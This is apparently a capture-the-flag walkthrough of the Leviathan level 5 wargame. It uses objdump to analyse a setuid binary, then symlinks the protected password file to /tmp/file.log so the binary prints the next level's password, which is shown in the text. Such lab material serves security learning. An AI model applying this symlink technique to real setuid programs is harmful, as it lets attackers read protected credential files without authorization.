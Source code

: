 From using ls -la, the executable to work with is `leviathan5`. When executing `leviathan5`, the output looks like this:

```
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```

Since we do not know what the executable is doing, we can use objdump to get some idea on what its doing on the stack:
```
leviathan5@gibson:~$ objdump -T leviathan5 

leviathan5:     file format elf32-i386

DYNAMIC SYMBOL TABLE:
00000000      DF *UND*  00000000 (GLIBC_2.34) __libc_start_main
00000000      DF *UND*  00000000 (GLIBC_2.1)  fclose
00000000      DF *UND*  00000000 (GLIBC_2.0)  getuid
00000000      DF *UND*  00000000 (GLIBC_2.0)  unlink
00000000      DF *UND*  00000000 (GLIBC_2.0)  puts
00000000  w   D  *UND*  00000000  Base        __gmon_start__
00000000      DF *UND*  00000000 (GLIBC_2.0)  exit
00000000      DF *UND*  00000000 (GLIBC_2.0)  feof
00000000      DF *UND*  00000000 (GLIBC_2.1)  fopen
00000000      DF *UND*  00000000 (GLIBC_2.0)  putchar
00000000      DF *UND*  00000000 (GLIBC_2.0)  fgetc
00000000      DF *UND*  00000000 (GLIBC_2.0)  setuid
0804a004 g    DO .rodata        00000004  Base        _IO_stdin_used
```
Key findings from the output:

    - The program opens a file (`fopen`), reads from it (`fgetc`), outputs its content (`putchar`), and then deletes it (`unlink`).
    - It also retrieves the user's UID (`getuid`) and sets the UID (`setuid`).

Now, we have some basic idea on what the command is doing, so we create a dummy folderand try the command again:

```
leviathan5@gibson:~$ echo nihao > /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
nihao
leviathan5@gibson:~$ ./leviathan5 
Cannot find /tmp/file.log
```

Pretty much what we had observed using `objdump`. 
Now, we have confirmed our suspicions and could try copying the password file into the tmp file and use that as a lever to get the password. 

However, copying the password file directly results in a permission denied error. To deal with this, we can create a symbolic link which I often use in wsl to get native directories into the distro. Similarly, we can do this for the task by creating a link from the password file to our temporary folder:
```
leviathan5@gibson:~$ cp  /etc/leviathan_pass/leviathan6 /tmp/file.log
cp: cannot open '/etc/leviathan_pass/leviathan6' for reading: Permission denied
leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@gibson:~$ ./leviathan5 
YZ55XPVk2l
```

Looks like symlink works and now we got our password!

